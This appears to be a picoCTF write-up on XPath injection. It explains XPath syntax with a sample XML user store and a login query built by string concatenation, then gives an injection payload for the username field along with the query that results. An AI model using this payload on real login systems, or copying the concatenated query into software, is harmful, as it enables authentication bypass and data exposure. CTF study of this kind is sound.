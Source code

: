 http://mercury.picoctf.net:16521/

The hints shows that it is about xpath.

Learning what is XPath:

https://matthung0807.blogspot.com/2017/12/xpath.html

https://zh.wikipedia.org/wiki/XPath

https://jiang-niao.github.io/2020/04/24/%E4%BB%8Ectf%E9%A2%98%E7%9B%AE%E4%B8%AD%E5%AD%A6%E4%B9%A0xpath%E6%B3%A8%E5%85%A5/



XPath Example:

```
<?xml version="1.0" encoding="UTF-8"?> 
<root>
  <users>
    <user>
      <id>1</id>
      <username>admin</username>
      <password type='md5'>e10adc3949ba59abbe56e057f20f883e</password>
    </user>
    <user>
      <id>2</id>
      <username>jiangniao</username>
      <password type='md5'>099ebea48ea9666a7da2177267983138</password>
    </user>
    <user>
      <id>3</id>
      <username>skbl</username>
      <password type='md5'>e995e9ba0c8ec5c9ce392b86bfece354</password>
    </user>
  </users>
</root>

```

The type of node is:

```
<?xml version="1.0" encoding="UTF-8"?>: processing-instruction node
<root>: root element node
<id>: element node
type='md5': attribute node
jiangniao: text node
```
How to use xpath? this is the sample:

```
/root/users/user[username/text()='".$name."' and password/text()='".$pwd."']
``` 

If you want to list all the text nodes, you can use wildcards "//\*", [starts-with(text(),'a')] meas that checking there has a text node start from 'a' or not.

```
//*[starts-with(text(),'a')]
```


Finally, the payload is :

```
' or //*[starts-with(text(),'a')] or 'a'='b
```

If you input this payload in username, the xpath search will like this:

```
/root/users/user[username/text()='' or //*[starts-with(text(),'a')] or 'a'='b' and password/text()='".$pwd."']
```

The priority of operator is:

<img width="300" alt="截圖 2022-03-09 下午2 57 50" src="https://user-images.githubusercontent.com/37798944/157388893-df93956d-ca48-44c7-a866-04e6ca6b198e.png">








